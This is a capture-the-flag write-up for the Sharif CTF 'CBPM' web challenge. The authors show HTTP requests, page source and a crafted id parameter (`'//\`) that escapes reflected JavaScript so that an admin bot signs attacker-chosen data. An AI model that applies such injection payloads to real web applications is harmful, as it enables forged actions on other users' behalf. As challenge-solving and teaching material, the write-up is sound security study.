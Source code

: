 # CBPM (web 300)

The participants were given an online portal which had several parts.
Sign by Yourself (users could sign any data with a key)
See List of Signatures (The list of user’s signed data were shown)
Sign by Administrator (Sending any data to admin to sign)
Get the flag (getting flag by proper admin sign)
After spending some time on the task, we realized the workflow. The important consequences:
1. Signing could not possible due to JavaScript snippet code.
2. By removing JavaScript code manually, the code signing was possible.
3. Admin signed everything, but the results were not shown to the users.
4. The question asked participant to sign their team number by admin.
5. The signing KEY was stored in cookie without HttpOnly flag.
Attack scenario: In the beginning, we tried to find a XSS vulnerability. By leveraging XSS, it could possible to force admin send their KEY to us, but after some test we were not able to exploit admin blindly. So after some time, we realized that workflow had a problem:

When a user wanted to sign a data, following request was sent:

```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D
And the response was:
HTTP/1.1 200 OK
Server: nginx/1.6.1
Date: Sun, 18 Dec 2016 11:08:27 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1407

<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta http-equiv="x-ua-compatible" content="ie=edge">

    <title>ExtraSecure - Wait & Sign</title>
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <script src="js/index.js"></script>
    <script src="js/cookie.js"></script>
    <script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=";
    </script>
</head>
<body>
<div class="container">
    <div class="card">
        <h1 class="card-header">Signing in <i id="time">10</i> seconds...</h1>
        <p class="card-block">Please be patient... The content will be signed with your key soon and you will be
            redirected to the <i>list</i> page to view the results.</p>
    </div>
</div>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='
        };
        postForm('/sign_and_store.php', body);
    });
</script>
</body>
</html>
```
Based on the response:
1. The JavaScript code at the bottom of response, prevented to sign data and redirected user to the home page.
2. `KEY` was gathered by parsing cookie.
3. `ID` was reflected in post data.



Interestingly, when we gave our data to admin to sign, following HTTP request were sent:
```
[POST DATA]
---
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%26content%3D60
---
```
URL decoded data:
```
content=60&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&url=http://ctf.sharif.edu:8083/wait_and_real_sign.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=&content=184
```
The link was similar to our data sign link. However, we had realized that JavaScript code prevented to sign data, as a result, admin was not able to sign anything yet!
So we had to find a way to disable the JavaScript code, and at the same time, not corrupting post data. The first string we came up was:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%5C
```
Which disabled the JavaScript code. However, it corrupted post data as it’s seen:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\";
</script>
<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ=\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
Some after, we found magical string:
```
/wait_and_real_sign.php?content=test&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%27%2f%2f%5c
```
Which represents `'//\`. At the same time, it disables JavaScript code and doesn’t corrupt post data:
```
<script>
        alert("Sorry, server is busy for a while!");
        document.location = "/index.php?id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\";
</script>

<script>
    var timeElem = document.getElementById('time');
    waitSeconds(timeElem, function () {
        var c = parse(document.cookie || '');
        var key = c['KEY'];
        var body = {
            //content: base64Decode("dGVzdA=="),
            content: "dGVzdA==",
            key: key,
            id: 'eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ='//\'
        };
        postForm('/sign_and_store.php', body);
    });
</script>
```
As a consequence, we sent our payload to admin and waited for his sign:
[POST DATA]
```
---
content=148&id=eyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D&url=http%3A%2F%2Fctf.sharif.edu%3A8083%2Fwait_and_real_sign.php%3Fid%3DeyJ0ZWFtaWQiOiI2MCJ9LjFjSVc5aC5CcGxnYnprcjVUY3BHeGlnaDQ4UjhfRzgyODQ%3D%27%2f%2f%5c%26content%3D148
---
```
The admin signed our data, we entered it and grabbed the flag :)
